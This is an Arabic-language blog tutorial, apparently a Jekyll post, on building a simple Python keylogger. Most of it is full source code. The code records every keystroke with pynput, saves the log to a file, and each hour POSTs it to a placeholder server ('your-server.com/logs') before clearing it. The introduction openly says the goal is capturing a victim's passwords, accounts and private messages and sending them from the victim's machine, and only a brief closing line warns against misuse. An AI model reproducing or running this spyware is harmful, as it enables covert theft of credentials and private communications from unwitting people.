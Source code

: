 ```yaml
---
title: "كتابة Keylogger بسيط باستخدام Python"
date: 2025-03-23
author: "Farouk"
layout: post
tags: [Python, Keylogger, Security]
direction: rtl
---
```


## **كيف تكتب Keylogger بسيط بالـ Python؟**


### **💡 المقدمة**

اول شي خلونا نفهم شو يعني **Ketlogger** , ال **Keylogger** هو عبارة عن برنامج بسجل عندي ضغطات الكيبورد تبع الضحية وهيك بقدر اعرف الحسابات وكلمات السر او حتى الرسائل الخاصة.
واليوم رح نعمل سوا **Keylogger بسيط بلغة Python** ونتعرف على آلية عمله بالتفصيل.

📌 **رح يغطي هذا الدرس:**
- كيف بتسجل ضغطات الكيبورد باستخدام مكتبة `pynput`
- تخزين هالبيانات ضمن ملف
- كيف نبعت هالملف من جهاز الضحية للسيرفر الخاص فينا
- وتشغيل برنامجنا ك **برنامج مستمر** يضل شغال بال**Background**

---

### **لكود كامل: Keylogger بالبايثون**

```python
import requests
import threading
from pynput.keyboard import Key, Listener

# رابط السيرفر لاستقبال البيانات
SERVER_URL = "http://your-server.com/logs"  # حط رابط السيرفر تبعك

def write_to_file(key):
    """
    تخزين ضغطات المفاتيح في ملف log.txt
    """
    try:
        keydata = str(key).replace("'", "")
    """
         تحليل المفاتيح الخاصة متل المسافات وزر الكونترول والتعامل معها
    """
        if key == Key.space:
            keydata = ' '
        elif key == Key.enter:
            keydata = '\n'
        elif key in (Key.shift, Key.ctrl_l, Key.ctrl_r, Key.alt_l, Key.alt_r):
            keydata = '' 

        # حفظ البيانات في الملف
        with open('log.txt', 'a') as f:
            f.write(keydata)
    
    except Exception as e:
        print(f"Error: {e}")

def send_logs():
    """
    هون منبعت البيانات يلي خزناها كل ساعة
    """
    try:
        with open("log.txt", "r") as f:
            logs = f.read()
        
        if logs.strip():  # الإرسال فقط إذا كان هناك بيانات
            response = requests.post(SERVER_URL, data={"logs": logs})
            if response.status_code == 200:
                print("Logs sent successfully!")
                open("log.txt", "w").close()  # مسح الملف بعد الإرسال
            else:
                print(f"Failed to send logs, status code: {response.status_code}")
    
    except Exception as e:
        print(f"Error sending logs: {e}")

    # جدولة إعادة التنفيذ كل ساعة
    threading.Timer(3600, send_logs).start()

# بدء الإرسال التلقائي
send_logs()

# تشغيل الـ Keylogger
with Listener(on_press=write_to_file) as listener:
    listener.join()
```

---

### **تحليل الكود**

📌 **1. تسجيل ضغطات المفاتيح:**
- مكتبة ال`pynput` بتساعدني لتسجيل كل **ضغطة زر** عالكيبورد وتحليلها.
- المفاتيح الخاصة (مثل `Shift` و `Enter`) منتعامل معها بطريقة مناسبة.
-  **منحفظ كل ضغطة عالكيبورد** بملف `log.txt`.

📌 **2. إرسال البيانات إلى سيرفر:**
- منقرأ محتوى ملف `log.txt` كل **ساعة**.
- إذا كان عندي بيانات، فبيبعتلي ياها ل  **السيرفر** عبر `requests.post()`.
- بعد ما يتم الارسال بقلو **يمسحلي الملف** حتى مايصير عندي تكرار بالإرسال.

📌 **3. تشغيل الكي لوجر بالخلفية:**
- استخدمت `threading.Timer` حتى يضل عم يرسل البيانات بشكل دوري.
- `Listener` بضل شغال حتى حدا **يوقف البرنامج يدويًا**.



---

### **الخاتمة**

هيك صار عندك **Keylogger بسيط وفعال** وهاد الشي حتى تفهم آلية عمله ويكون عندك الفهم البرمجي لطريقة عمله, فلا تستخدموا بطريقة غلط🌚.

**🤔وهلق خبرني شو رأيك بالكود؟ وهل عندك أفكار لتطويره؟**
